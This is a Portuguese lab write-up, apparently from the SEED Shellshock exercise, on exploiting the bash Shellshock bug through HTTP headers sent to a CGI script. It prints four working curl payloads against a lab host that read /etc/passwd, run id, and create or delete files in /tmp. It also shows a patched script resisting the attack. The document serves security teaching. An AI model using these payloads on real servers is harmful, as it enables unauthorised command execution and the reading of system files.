




# 3

O objectivo desta tarefa consiste em obter informação ou fazer alterações na estrutura de ficheiros do container utilizando o curl e explorando a vulnerabilidade shellshock. Com o curl é efetuado um pedido HTTP a um script que utiliza uma versão do bash vulnerável e onde o código a executar é injetado num header HTTP. Foram utilizados três headers diferentes para realizar esta tarefa, associados às seguintes flags do curl:
 * -A - User-Agent
 * -e - Referrer
 * -H - Header explícito (o utilizado foi o Accept)
 
No header basta escrever a expressão '() { :;};' para declarar uma função vazia e permitir a execução de código no container. Nos casos onde existe output é necessário também adicionar 'echo Content-type: text/plain;' para este ser visível na resposta ao pedido.

A

```
curl -A "() { :;}; echo Content-Type: text/plain; echo; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

B

```
curl -H 'Accept: () { :;}; echo Content-type: text/plain; echo; /bin/id;' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```



C

```
curl -e '() { :;}; echo Content-type: text/plain; echo; /bin/touch /tmp/virus.txt;' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

D

```
curl -A '() { :;}; echo Content-type: text/plain; echo; /bin/rm /tmp/virus.txt;' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```



## Questions
### 1
Não pois o ficheiro /etc/shadow, que não é visível a terceiros, é owned pelo root e pertence ao grupo shadow, enquanto que o servidor executa no utilizador www-data que apenas pertence ao grupo do mesmo nome, não possuindo portanto permissões para o visualizar.



### 2
Não pois os dados a injetar possuem espaços, algo que torna um URL inválido.




# 5

Foi criado um script CGI que utiliza uma versão do bash onde a vulnerabilidade foi mitigada com o nome de patched.cgi que apenas faz echo da string 'I'm Patched!'.


Como observado, nenhum dos comandos injetados nos headers HTTP foi executado e o script executou como esperado, o que mostra que de facto a vulnerabilidade shellshock foi corrigida nesta versão.

